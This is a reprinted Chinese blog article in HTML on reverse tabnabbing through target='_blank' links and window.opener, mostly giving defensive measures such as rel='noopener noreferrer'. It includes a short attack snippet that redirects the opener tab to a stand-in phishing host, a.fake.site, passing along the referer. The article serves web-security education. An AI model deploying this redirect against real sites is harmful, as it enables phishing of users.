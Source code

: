 ```yaml
---
title: 你不曾察觉的隐患：危险的 target="_blank" 与 “opener”
reprint: true
categories: reprint
abbrlink: 3aa5de53
date: 2018-11-09 02:30:05
---
```


{% raw %}
<blockquote>&#x5728;&#x7F51;&#x9875;&#x4E2D;&#x4F7F;&#x7528;&#x94FE;&#x63A5;&#x65F6;&#xFF0C;&#x5982;&#x679C;&#x60F3;&#x8981;&#x8BA9;&#x6D4F;&#x89C8;&#x5668;&#x81EA;&#x52A8;&#x5728;&#x65B0;&#x7684;&#x6807;&#x7B7E;&#x9875;&#x6253;&#x5F00;&#x6307;&#x5B9A;&#x7684;&#x5730;&#x5740;&#xFF0C;&#x901A;&#x5E38;&#x7684;&#x505A;&#x6CD5;&#x5C31;&#x662F;&#x5728; <code>a</code> &#x6807;&#x7B7E;&#x4E0A;&#x6DFB;&#x52A0; <code>target&#x7B49;&#x4E8E;&quot;_blank&quot;</code> &#x5C5E;&#x6027;&#x3002;<br>&#x7136;&#x800C;&#xFF0C;&#x5C31;&#x662F;&#x8FD9;&#x4E2A;&#x5C5E;&#x6027;&#xFF0C;&#x4E3A;&#x9493;&#x9C7C;&#x653B;&#x51FB;&#x8005;&#x5E26;&#x6765;&#x4E86;&#x53EF;&#x4E58;&#x4E4B;&#x673A;&#x3002;</blockquote><p><span class="img-wrap"><img data-src="/img/bVbg33P?w=1200&amp;h=600" src="https://static.alili.tech/img/bVbg33P?w=1200&amp;h=600" alt="" title="" style="cursor:pointer;display:inline"></span></p><h1 id="articleHeader0">&#x8D77;&#x6E90;</h1><h2 id="articleHeader1"><code>parent</code> &#x4E0E; <code>opener</code></h2><p>&#x5728;&#x8BF4; <code>opener</code> &#x4E4B;&#x524D;&#xFF0C;&#x53EF;&#x4EE5;&#x5148;&#x804A;&#x804A; <code>&lt;iframe&gt;</code> &#x4E2D;&#x7684; <code>parent</code>&#x3002;</p><p>&#x6211;&#x4EEC;&#x77E5;&#x9053;&#xFF0C;&#x5728; <code>&lt;iframe&gt;</code> &#x4E2D;&#x63D0;&#x4F9B;&#x4E86;&#x4E00;&#x4E2A;&#x7528;&#x4E8E;&#x7236;&#x5B50;&#x9875;&#x9762;&#x4EA4;&#x4E92;&#x7684;&#x5BF9;&#x8C61;&#xFF0C;&#x53EB;&#x505A; <code>window.parent</code>&#xFF0C;&#x6211;&#x4EEC;&#x53EF;&#x4EE5;&#x901A;&#x8FC7; <code>window.parent</code> &#x5BF9;&#x8C61;&#x6765;&#x4ECE;&#x6846;&#x67B6;&#x4E2D;&#x7684;&#x9875;&#x9762;&#x8BBF;&#x95EE;&#x7236;&#x7EA7;&#x9875;&#x9762;&#x7684; <code>window</code>&#x3002;</p><p><code>opener</code> &#x4E0E; <code>parent</code> &#x4E00;&#x6837;&#xFF0C;&#x53EA;&#x4E0D;&#x8FC7;&#x662F;&#x7528;&#x4E8E; <code>&lt;a target=&quot;_blank&quot;&gt;</code> &#x5728;&#x65B0;&#x6807;&#x7B7E;&#x9875;&#x6253;&#x5F00;&#x7684;&#x9875;&#x9762;&#x7684;&#x3002;&#x901A;&#x8FC7; <code>&lt;a target=&quot;_blank&quot;&gt;</code> &#x6253;&#x5F00;&#x7684;&#x9875;&#x9762;&#xFF0C;&#x53EF;&#x4EE5;&#x76F4;&#x63A5;&#x4F7F;&#x7528; <code>window.opener</code> &#x6765;&#x8BBF;&#x95EE;&#x6765;&#x6E90;&#x9875;&#x9762;&#x7684; <code>window</code> &#x5BF9;&#x8C61;&#x3002;</p><h2 id="articleHeader2">&#x540C;&#x57DF;&#x4E0E;&#x8DE8;&#x57DF;</h2><p>&#x6D4F;&#x89C8;&#x5668;&#x63D0;&#x4F9B;&#x4E86;&#x5B8C;&#x6574;&#x7684;&#x8DE8;&#x57DF;&#x4FDD;&#x62A4;&#xFF0C;&#x5728;&#x57DF;&#x540D;&#x76F8;&#x540C;&#x65F6;&#xFF0C;<code>parent</code> &#x5BF9;&#x8C61;&#x548C; <code>opener</code> &#x5BF9;&#x8C61;&#x5B9E;&#x9645;&#x4E0A;&#x5C31;&#x76F4;&#x63A5;&#x662F;&#x4E0A;&#x4E00;&#x7EA7;&#x7684; <code>window</code> &#x5BF9;&#x8C61;&#xFF1B;&#x800C;&#x5F53;&#x57DF;&#x540D;&#x4E0D;&#x540C;&#x65F6;&#xFF0C;<code>parent</code> &#x548C; <code>opener</code> &#x5219;&#x662F;&#x7ECF;&#x8FC7;&#x5305;&#x88C5;&#x7684;&#x4E00;&#x4E2A; <code>global</code> &#x5BF9;&#x8C61;&#x3002;&#x8FD9;&#x4E2A; <code>global</code> &#x5BF9;&#x8C61;&#x4EC5;&#x63D0;&#x4F9B;&#x975E;&#x5E38;&#x6709;&#x9650;&#x7684;&#x5C5E;&#x6027;&#x8BBF;&#x95EE;&#xFF0C;&#x5E76;&#x4E14;&#x5728;&#x8FD9;&#x4EC5;&#x6709;&#x7684;&#x51E0;&#x4E2A;&#x5C5E;&#x6027;&#x4E2D;&#xFF0C;&#x5927;&#x90E8;&#x5206;&#x4E5F;&#x90FD;&#x662F;&#x4E0D;&#x5141;&#x8BB8;&#x8BBF;&#x95EE;&#x7684;&#xFF08;&#x8BBF;&#x95EE;&#x4F1A;&#x76F4;&#x63A5;&#x629B;&#x51FA; <code>DOMException</code>&#xFF09;&#x3002;</p><p><span class="img-wrap"><img data-src="/img/bVbg33S?w=729&amp;h=42" src="https://static.alili.tech/img/bVbg33S?w=729&amp;h=42" alt="" title="" style="cursor:pointer;display:inline"></span></p><p><span class="img-wrap"><img data-src="/img/bVbg33T?w=729&amp;h=42" src="https://static.alili.tech/img/bVbg33T?w=729&amp;h=42" alt="" title="" style="cursor:pointer;display:inline"></span></p><p>&#x5728; <code>&lt;iframe&gt;</code> &#x4E2D;&#xFF0C;&#x63D0;&#x4F9B;&#x4E86;&#x4E00;&#x4E2A; <code>sandbox</code> &#x5C5E;&#x6027;&#x7528;&#x4E8E;&#x63A7;&#x5236;&#x6846;&#x67B6;&#x4E2D;&#x7684;&#x9875;&#x9762;&#x7684;&#x6743;&#x9650;&#xFF0C;&#x56E0;&#x6B64;&#x5373;&#x4F7F;&#x662F;&#x540C;&#x57DF;&#xFF0C;&#x4E5F;&#x53EF;&#x4EE5;&#x63A7;&#x5236; <code>&lt;iframe&gt;</code> &#x7684;&#x5B89;&#x5168;&#x6027;&#x3002;</p><h1 id="articleHeader3">&#x5229;&#x7528;</h1><p>&#x5982;&#x679C;&#xFF0C;&#x4F60;&#x7684;&#x7F51;&#x7AD9;&#x4E0A;&#x6709;&#x4E00;&#x4E2A;&#x94FE;&#x63A5;&#xFF0C;&#x4F7F;&#x7528;&#x4E86; <code>target=&quot;_blank&quot;</code>&#xFF0C;&#x90A3;&#x4E48;&#x4E00;&#x65E6;&#x7528;&#x6237;&#x70B9;&#x51FB;&#x8FD9;&#x4E2A;&#x94FE;&#x63A5;&#x5E76;&#x8FDB;&#x5165;&#x4E00;&#x4E2A;&#x65B0;&#x7684;&#x6807;&#x7B7E;&#xFF0C;&#x65B0;&#x6807;&#x7B7E;&#x4E2D;&#x7684;&#x9875;&#x9762;&#x5982;&#x679C;&#x5B58;&#x5728;&#x6076;&#x610F;&#x4EE3;&#x7801;&#xFF0C;&#x5C31;&#x53EF;&#x4EE5;&#x5C06;&#x4F60;&#x7684;&#x7F51;&#x7AD9;&#x76F4;&#x63A5;&#x5BFC;&#x822A;&#x5230;&#x4E00;&#x4E2A;&#x865A;&#x5047;&#x7F51;&#x7AD9;&#x3002;&#x6B64;&#x65F6;&#xFF0C;&#x5982;&#x679C;&#x7528;&#x6237;&#x56DE;&#x5230;&#x4F60;&#x7684;&#x6807;&#x7B7E;&#x9875;&#xFF0C;&#x770B;&#x5230;&#x7684;&#x5C31;&#x662F;&#x88AB;&#x66FF;&#x6362;&#x8FC7;&#x7684;&#x9875;&#x9762;&#x4E86;&#x3002;</p><h2 id="articleHeader4">&#x8BE6;&#x7EC6;&#x6B65;&#x9AA4;</h2><ol><li><p>&#x5728;&#x4F60;&#x7684;&#x7F51;&#x7AD9; <code>https://example.com</code> &#x4E0A;&#x5B58;&#x5728;&#x4E00;&#x4E2A;&#x94FE;&#x63A5;&#xFF1A;</p><div class="widget-codetool" style="display:none"><div class="widget-codetool--inner"><span class="selectCode code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="&#x5168;&#x9009;"></span> <span type="button" class="copyCode code-tool" data-toggle="tooltip" data-placement="top" data-clipboard-text="&lt;a href=&quot;https://an.evil.site&quot; target=&quot;_blank&quot;&gt;&#x8FDB;&#x5165;&#x4E00;&#x4E2A;&#x201C;&#x90AA;&#x6076;&#x201D;&#x7684;&#x7F51;&#x7AD9;&lt;/a&gt;" title="" data-original-title="&#x590D;&#x5236;"></span> <span type="button" class="saveToNote code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="&#x653E;&#x8FDB;&#x7B14;&#x8BB0;"></span></div></div><pre class="xml hljs"><code class="html" style="word-break:break-word;white-space:initial"><span class="hljs-tag">&lt;<span class="hljs-name">a</span> <span class="hljs-attr">href</span>=<span class="hljs-string">&quot;https://an.evil.site&quot;</span> <span class="hljs-attr">target</span>=<span class="hljs-string">&quot;_blank&quot;</span>&gt;</span>&#x8FDB;&#x5165;&#x4E00;&#x4E2A;&#x201C;&#x90AA;&#x6076;&#x201D;&#x7684;&#x7F51;&#x7AD9;<span class="hljs-tag">&lt;/<span class="hljs-name">a</span>&gt;</span></code></pre></li><li><p>&#x7528;&#x6237;&#x70B9;&#x51FB;&#x4E86;&#x8FD9;&#x4E2A;&#x94FE;&#x63A5;&#xFF0C;&#x5728;&#x65B0;&#x7684;&#x6807;&#x7B7E;&#x9875;&#x6253;&#x5F00;&#x4E86;&#x8FD9;&#x4E2A;&#x7F51;&#x7AD9;&#x3002;&#x8FD9;&#x4E2A;&#x7F51;&#x7AD9;&#x53EF;&#x4EE5;&#x901A;&#x8FC7; HTTP Header &#x4E2D;&#x7684; <code>Referer</code> &#x5C5E;&#x6027;&#x6765;&#x5224;&#x65AD;&#x7528;&#x6237;&#x7684;&#x6765;&#x6E90;&#x3002;</p><p>&#x5E76;&#x4E14;&#xFF0C;&#x8FD9;&#x4E2A;&#x7F51;&#x7AD9;&#x4E0A;&#x5305;&#x542B;&#x7740;&#x7C7B;&#x4F3C;&#x4E8E;&#x8FD9;&#x6837;&#x7684; JavaScript &#x4EE3;&#x7801;&#xFF1A;</p><div class="widget-codetool" style="display:none"><div class="widget-codetool--inner"><span class="selectCode code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="&#x5168;&#x9009;"></span> <span type="button" class="copyCode code-tool" data-toggle="tooltip" data-placement="top" data-clipboard-text="const url = encodeURIComponent(&apos;{{header.referer}}&apos;);
window.opener.location.replace(&apos;https://a.fake.site/?&apos; + url);" title="" data-original-title="&#x590D;&#x5236;"></span> <span type="button" class="saveToNote code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="&#x653E;&#x8FDB;&#x7B14;&#x8BB0;"></span></div></div><pre class="javascript hljs"><code class="javascript"><span class="hljs-keyword">const</span> url = <span class="hljs-built_in">encodeURIComponent</span>(<span class="hljs-string">&apos;{{header.referer}}&apos;</span>);
<span class="hljs-built_in">window</span>.opener.location.replace(<span class="hljs-string">&apos;https://a.fake.site/?&apos;</span> + url);</code></pre></li><li>&#x6B64;&#x65F6;&#xFF0C;&#x7528;&#x6237;&#x5728;&#x7EE7;&#x7EED;&#x6D4F;&#x89C8;&#x8FD9;&#x4E2A;&#x65B0;&#x7684;&#x6807;&#x7B7E;&#x9875;&#xFF0C;&#x800C;&#x539F;&#x6765;&#x7684;&#x7F51;&#x7AD9;&#x6240;&#x5728;&#x7684;&#x6807;&#x7B7E;&#x9875;&#x6B64;&#x65F6;&#x5DF2;&#x7ECF;&#x88AB;&#x5BFC;&#x822A;&#x5230;&#x4E86; <code>https://a.fake.site/?https%3A%2F%2Fexample.com%2F</code>&#x3002;</li><li>&#x6076;&#x610F;&#x7F51;&#x7AD9; <code>https://a.fake.site</code> &#x6839;&#x636E; Query String &#x6765;&#x4F2A;&#x9020;&#x4E00;&#x4E2A;&#x8DB3;&#x4EE5;&#x6B3A;&#x9A97;&#x7528;&#x6237;&#x7684;&#x9875;&#x9762;&#xFF0C;&#x5E76;&#x5C55;&#x793A;&#x51FA;&#x6765;&#xFF08;&#x671F;&#x95F4;&#x8FD8;&#x53EF;&#x4EE5;&#x505A;&#x4E00;&#x6B21;&#x8DF3;&#x8F6C;&#xFF0C;&#x4F7F;&#x5F97;&#x6D4F;&#x89C8;&#x5668;&#x7684;&#x5730;&#x5740;&#x680F;&#x66F4;&#x5177;&#x6709;&#x8FF7;&#x60D1;&#x6027;&#xFF09;&#x3002;</li><li>&#x7528;&#x6237;&#x5173;&#x95ED; <code>https://an.evil.site</code> &#x7684;&#x6807;&#x7B7E;&#x9875;&#xFF0C;&#x56DE;&#x5230;&#x539F;&#x6765;&#x7684;&#x7F51;&#x7AD9;&#x2026;&#x2026;&#x2026;&#x2026;&#x2026;&#x2026;&#x5DF2;&#x7ECF;&#x56DE;&#x4E0D;&#x53BB;&#x4E86;&#x3002;</li></ol><blockquote>&#x4E0A;&#x9762;&#x7684;&#x653B;&#x51FB;&#x6B65;&#x9AA4;&#x662F;&#x5728;&#x8DE8;&#x57DF;&#x7684;&#x60C5;&#x51B5;&#x4E0B;&#x7684;&#xFF0C;&#x5728;&#x8DE8;&#x57DF;&#x60C5;&#x51B5;&#x4E0B;&#xFF0C;<code>opener</code> &#x5BF9;&#x8C61;&#x548C; <code>parent</code> &#x4E00;&#x6837;&#xFF0C;&#x662F;&#x53D7;&#x5230;&#x9650;&#x5236;&#x7684;&#xFF0C;&#x4EC5;&#x63D0;&#x4F9B;&#x975E;&#x5E38;&#x6709;&#x9650;&#x7684;&#x5C5E;&#x6027;&#x8BBF;&#x95EE;&#xFF0C;&#x5E76;&#x4E14;&#x5728;&#x8FD9;&#x4EC5;&#x6709;&#x7684;&#x51E0;&#x4E2A;&#x5C5E;&#x6027;&#x4E2D;&#xFF0C;&#x5927;&#x90E8;&#x5206;&#x4E5F;&#x90FD;&#x662F;&#x4E0D;&#x5141;&#x8BB8;&#x8BBF;&#x95EE;&#x7684;&#xFF08;&#x8BBF;&#x95EE;&#x4F1A;&#x76F4;&#x63A5;&#x629B;&#x51FA; <code>DOMException</code>&#xFF09;&#x3002;<p>&#x4F46;&#x662F;&#x4E0E; <code>parent</code> &#x4E0D;&#x540C;&#x7684;&#x662F;&#xFF0C;<strong>&#x5728;&#x8DE8;&#x57DF;&#x7684;&#x60C5;&#x51B5;&#x4E0B;&#xFF0C;<code>opener</code> &#x4ECD;&#x7136;&#x53EF;&#x4EE5;&#x8C03;&#x7528; <code>location.replace</code> &#x65B9;&#x6CD5;</strong>&#x800C; <code>parent</code> &#x5219;&#x4E0D;&#x53EF;&#x4EE5;&#x3002;</p><p>&#x5982;&#x679C;&#x662F;&#x5728;&#x540C;&#x57DF;&#x7684;&#x60C5;&#x51B5;&#x4E0B;&#xFF08;&#x6BD4;&#x5982;&#x4E00;&#x4E2A;&#x7F51;&#x7AD9;&#x4E0A;&#x7684;&#x67D0;&#x4E00;&#x4E2A;&#x9875;&#x9762;&#x88AB;&#x690D;&#x5165;&#x4E86;&#x6076;&#x610F;&#x4EE3;&#x7801;&#xFF09;&#xFF0C;&#x5219;&#x60C5;&#x51B5;&#x8981;&#x6BD4;&#x4E0A;&#x9762;&#x4E25;&#x91CD;&#x5F97;&#x591A;&#x3002;</p></blockquote><h1 id="articleHeader5">&#x9632;&#x5FA1;</h1><p><code>&lt;iframe&gt;</code> &#x4E2D;&#x6709; <code>sandbox</code> &#x5C5E;&#x6027;&#xFF0C;&#x800C;&#x94FE;&#x63A5;&#xFF0C;&#x5219;&#x53EF;&#x4EE5;&#x4F7F;&#x7528;&#x4E0B;&#x9762;&#x7684;&#x529E;&#x6CD5;&#xFF1A;</p><h2 id="articleHeader6">1. Referrer Policy &#x548C; noreferrer</h2><p>&#x4E0A;&#x9762;&#x7684;&#x653B;&#x51FB;&#x6B65;&#x9AA4;&#x4E2D;&#xFF0C;&#x7528;&#x5230;&#x4E86; HTTP Header &#x4E2D;&#x7684; <code>Referer</code> &#x5C5E;&#x6027;&#xFF0C;&#x5B9E;&#x9645;&#x4E0A;&#x53EF;&#x4EE5;&#x5728; HTTP &#x7684;&#x54CD;&#x5E94;&#x5934;&#x4E2D;&#x589E;&#x52A0; <code>Referrer Policy</code> &#x5934;&#x6765;&#x4FDD;&#x8BC1;&#x6765;&#x6E90;&#x9690;&#x79C1;&#x5B89;&#x5168;&#x3002;</p><p><code>Referrer Policy</code> &#x9700;&#x8981;&#x4FEE;&#x6539;&#x540E;&#x7AEF;&#x4EE3;&#x7801;&#x6765;&#x5B9E;&#x73B0;&#xFF0C;&#x800C;&#x5728;&#x524D;&#x7AEF;&#xFF0C;&#x4E5F;&#x53EF;&#x4EE5;&#x4F7F;&#x7528; <code>&lt;a&gt;</code> &#x6807;&#x7B7E;&#x7684; <code>rel</code> &#x5C5E;&#x6027;&#x6765;&#x6307;&#x5B9A; <code>rel=&quot;noreferrer&quot;</code> &#x6765;&#x4FDD;&#x8BC1;&#x6765;&#x6E90;&#x9690;&#x79C1;&#x5B89;&#x5168;&#x3002;</p><div class="widget-codetool" style="display:none"><div class="widget-codetool--inner"><span class="selectCode code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="&#x5168;&#x9009;"></span> <span type="button" class="copyCode code-tool" data-toggle="tooltip" data-placement="top" data-clipboard-text="&lt;a href=&quot;https://an.evil.site&quot; target=&quot;_blank&quot; rel=&quot;noreferrer&quot;&gt;&#x8FDB;&#x5165;&#x4E00;&#x4E2A;&#x201C;&#x90AA;&#x6076;&#x201D;&#x7684;&#x7F51;&#x7AD9;&lt;/a&gt;" title="" data-original-title="&#x590D;&#x5236;"></span> <span type="button" class="saveToNote code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="&#x653E;&#x8FDB;&#x7B14;&#x8BB0;"></span></div></div><pre class="xml hljs"><code class="html" style="word-break:break-word;white-space:initial"><span class="hljs-tag">&lt;<span class="hljs-name">a</span> <span class="hljs-attr">href</span>=<span class="hljs-string">&quot;https://an.evil.site&quot;</span> <span class="hljs-attr">target</span>=<span class="hljs-string">&quot;_blank&quot;</span> <span class="hljs-attr">rel</span>=<span class="hljs-string">&quot;noreferrer&quot;</span>&gt;</span>&#x8FDB;&#x5165;&#x4E00;&#x4E2A;&#x201C;&#x90AA;&#x6076;&#x201D;&#x7684;&#x7F51;&#x7AD9;<span class="hljs-tag">&lt;/<span class="hljs-name">a</span>&gt;</span></code></pre><blockquote>&#x4F46;&#x662F;&#x8981;&#x6CE8;&#x610F;&#x7684;&#x662F;&#xFF1A;&#x5373;&#x4F7F;&#x9650;&#x5236;&#x4E86; <code>referer</code> &#x7684;&#x4F20;&#x9012;&#xFF0C;&#x4ECD;&#x7136;&#x4E0D;&#x80FD;&#x963B;&#x6B62;&#x539F;&#x6807;&#x7B7E;&#x88AB;&#x6076;&#x610F;&#x8DF3;&#x8F6C;&#x3002;</blockquote><h2 id="articleHeader7">2. noopener</h2><p>&#x4E3A;&#x4E86;&#x5B89;&#x5168;&#xFF0C;&#x73B0;&#x4EE3;&#x6D4F;&#x89C8;&#x5668;&#x90FD;&#x652F;&#x6301;&#x5728; <code>&lt;a&gt;</code> &#x6807;&#x7B7E;&#x7684; <code>rel</code> &#x5C5E;&#x6027;&#x4E2D;&#x6307;&#x5B9A; <code>rel=&quot;noopener&quot;</code>&#xFF0C;&#x8FD9;&#x6837;&#xFF0C;&#x5728;&#x6253;&#x5F00;&#x7684;&#x65B0;&#x6807;&#x7B7E;&#x9875;&#x4E2D;&#xFF0C;&#x5C06;&#x65E0;&#x6CD5;&#x518D;&#x4F7F;&#x7528; <code>opener</code> &#x5BF9;&#x8C61;&#x4E86;&#xFF0C;&#x5B83;&#x4E3A;&#x8BBE;&#x7F6E;&#x4E3A;&#x4E86; <code>null</code>&#x3002;</p><div class="widget-codetool" style="display:none"><div class="widget-codetool--inner"><span class="selectCode code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="&#x5168;&#x9009;"></span> <span type="button" class="copyCode code-tool" data-toggle="tooltip" data-placement="top" data-clipboard-text="&lt;a href=&quot;https://an.evil.site&quot; target=&quot;_blank&quot; rel=&quot;noopener&quot;&gt;&#x8FDB;&#x5165;&#x4E00;&#x4E2A;&#x201C;&#x90AA;&#x6076;&#x201D;&#x7684;&#x7F51;&#x7AD9;&lt;/a&gt;" title="" data-original-title="&#x590D;&#x5236;"></span> <span type="button" class="saveToNote code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="&#x653E;&#x8FDB;&#x7B14;&#x8BB0;"></span></div></div><pre class="xml hljs"><code class="html" style="word-break:break-word;white-space:initial"><span class="hljs-tag">&lt;<span class="hljs-name">a</span> <span class="hljs-attr">href</span>=<span class="hljs-string">&quot;https://an.evil.site&quot;</span> <span class="hljs-attr">target</span>=<span class="hljs-string">&quot;_blank&quot;</span> <span class="hljs-attr">rel</span>=<span class="hljs-string">&quot;noopener&quot;</span>&gt;</span>&#x8FDB;&#x5165;&#x4E00;&#x4E2A;&#x201C;&#x90AA;&#x6076;&#x201D;&#x7684;&#x7F51;&#x7AD9;<span class="hljs-tag">&lt;/<span class="hljs-name">a</span>&gt;</span></code></pre><h2 id="articleHeader8">3. JavaScript</h2><p><code>noopener</code> &#x5C5E;&#x6027;&#x770B;&#x4F3C;&#x662F;&#x89E3;&#x51B3;&#x4E86;&#x6240;&#x6709;&#x95EE;&#x9898;&#xFF0C;&#x4F46;&#x662F;...&#x6D4F;&#x89C8;&#x5668;&#x7684;&#x517C;&#x5BB9;&#x6027;&#x95EE;&#x9898;...</p><p><span class="img-wrap"><img data-src="/img/bVbg33Y?w=1200&amp;h=814" src="https://static.alili.tech/img/bVbg33Y?w=1200&amp;h=814" alt="" title="" style="cursor:pointer;display:inline"></span></p><p>&#x53EF;&#x4EE5;&#x770B;&#x5230;&#xFF0C;&#x73B0;&#x5728;&#x7EDD;&#x5927;&#x591A;&#x6570;&#x6D4F;&#x89C8;&#x5668;&#x90FD;&#x5DF2;&#x7ECF;&#x517C;&#x5BB9;&#x4E86; <code>rel=&quot;noopener&quot;</code> &#x5C5E;&#x6027;&#x4E86;&#x3002;&#x4F46;&#x662F;&#xFF0C;&#x4E3A;&#x4E86;&#x4FDD;&#x62A4;&#x7A0D;&#x65E7;&#x7684;&#x201C;&#x8FD1;&#x4EE3;&#x201D;&#x6D4F;&#x89C8;&#x5668;&#x6216;&#x662F;&#x5F88;&#x65E7;&#x7684;&#x201C;&#x53E4;&#x4EE3;&#x201D;&#x6D4F;&#x89C8;&#x5668;&#x751A;&#x81F3;&#x662F;&#x201C;&#x8FDC;&#x53E4;&#x201D;&#x6D4F;&#x89C8;&#x5668;&#xFF0C;&#x53EA;&#x6709; <code>noopener</code> &#x5C5E;&#x6027;&#x8FD8;&#x662F;&#x8FDC;&#x8FDC;&#x4E0D;&#x591F;&#x7684;&#x3002;</p><p>&#x8FD9;&#x65F6;&#xFF0C;&#x5C31;&#x53EA;&#x80FD;&#x8BF7;&#x51FA;&#x4E0B;&#x9762;&#x8FD9;&#x6BB5;&#x539F;&#x751F; JavaScript &#x6765;&#x5E2E;&#x5FD9;&#x4E86;&#x3002;</p><div class="widget-codetool" style="display:none"><div class="widget-codetool--inner"><span class="selectCode code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="&#x5168;&#x9009;"></span> <span type="button" class="copyCode code-tool" data-toggle="tooltip" data-placement="top" data-clipboard-text="&quot;use strict&quot;;
function openUrl(url) {
  var newTab = window.open();
  newTab.opener = null;
  newTab.location = url;
}" title="" data-original-title="&#x590D;&#x5236;"></span> <span type="button" class="saveToNote code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="&#x653E;&#x8FDB;&#x7B14;&#x8BB0;"></span></div></div><pre class="hljs javascript"><code><span class="hljs-meta">&quot;use strict&quot;</span>;
<span class="hljs-function"><span class="hljs-keyword">function</span> <span class="hljs-title">openUrl</span>(<span class="hljs-params">url</span>) </span>{
  <span class="hljs-keyword">var</span> newTab = <span class="hljs-built_in">window</span>.open();
  newTab.opener = <span class="hljs-literal">null</span>;
  newTab.location = url;
}</code></pre><h1 id="articleHeader9">&#x63A8;&#x8350;</h1><p>&#x9996;&#x5148;&#xFF0C;&#x5728;&#x7F51;&#x7AD9;&#x4E2D;&#x7684;&#x94FE;&#x63A5;&#x4E0A;&#xFF0C;&#x5982;&#x679C;&#x4F7F;&#x7528;&#x4E86; <code>target=&quot;_blank&quot;</code>&#xFF0C;&#x5C31;&#x8981;&#x5E26;&#x4E0A; <code>rel=&quot;noopener&quot;</code>&#xFF0C;&#x5E76;&#x4E14;&#x5EFA;&#x8BAE;&#x5E26;&#x4E0A; <code>rel=&quot;noreferrer&quot;</code>&#x3002;&#x7C7B;&#x4F3C;&#x4E8E;&#x8FD9;&#x6837;&#xFF1A;</p><div class="widget-codetool" style="display:none"><div class="widget-codetool--inner"><span class="selectCode code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="&#x5168;&#x9009;"></span> <span type="button" class="copyCode code-tool" data-toggle="tooltip" data-placement="top" data-clipboard-text="&lt;a href=&quot;https://an.evil.site&quot; target=&quot;_blank&quot; rel=&quot;noopener noreferrer&quot;&gt;&#x8FDB;&#x5165;&#x4E00;&#x4E2A;&#x201C;&#x90AA;&#x6076;&#x201D;&#x7684;&#x7F51;&#x7AD9;&lt;/a&gt;" title="" data-original-title="&#x590D;&#x5236;"></span> <span type="button" class="saveToNote code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="&#x653E;&#x8FDB;&#x7B14;&#x8BB0;"></span></div></div><pre class="xml hljs"><code class="html" style="word-break:break-word;white-space:initial"><span class="hljs-tag">&lt;<span class="hljs-name">a</span> <span class="hljs-attr">href</span>=<span class="hljs-string">&quot;https://an.evil.site&quot;</span> <span class="hljs-attr">target</span>=<span class="hljs-string">&quot;_blank&quot;</span> <span class="hljs-attr">rel</span>=<span class="hljs-string">&quot;noopener noreferrer&quot;</span>&gt;</span>&#x8FDB;&#x5165;&#x4E00;&#x4E2A;&#x201C;&#x90AA;&#x6076;&#x201D;&#x7684;&#x7F51;&#x7AD9;<span class="hljs-tag">&lt;/<span class="hljs-name">a</span>&gt;</span></code></pre><p>&#x5F53;&#x7136;&#xFF0C;&#x5728;&#x8DF3;&#x8F6C;&#x5230;&#x7B2C;&#x4E09;&#x65B9;&#x7F51;&#x7AD9;&#x7684;&#x65F6;&#x5019;&#xFF0C;&#x4E3A;&#x4E86; SEO &#x6743;&#x91CD;&#xFF0C;&#x8FD8;&#x5EFA;&#x8BAE;&#x5E26;&#x4E0A; <code>rel=&quot;nofollow&quot;</code>&#xFF0C;&#x6240;&#x4EE5;&#x6700;&#x7EC8;&#x7C7B;&#x4F3C;&#x4E8E;&#x8FD9;&#x6837;&#xFF1A;</p><div class="widget-codetool" style="display:none"><div class="widget-codetool--inner"><span class="selectCode code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="&#x5168;&#x9009;"></span> <span type="button" class="copyCode code-tool" data-toggle="tooltip" data-placement="top" data-clipboard-text="&lt;a href=&quot;https://an.evil.site&quot; target=&quot;_blank&quot; rel=&quot;noopener noreferrer nofollow&quot;&gt;&#x8FDB;&#x5165;&#x4E00;&#x4E2A;&#x201C;&#x90AA;&#x6076;&#x201D;&#x7684;&#x7F51;&#x7AD9;&lt;/a&gt;" title="" data-original-title="&#x590D;&#x5236;"></span> <span type="button" class="saveToNote code-tool" 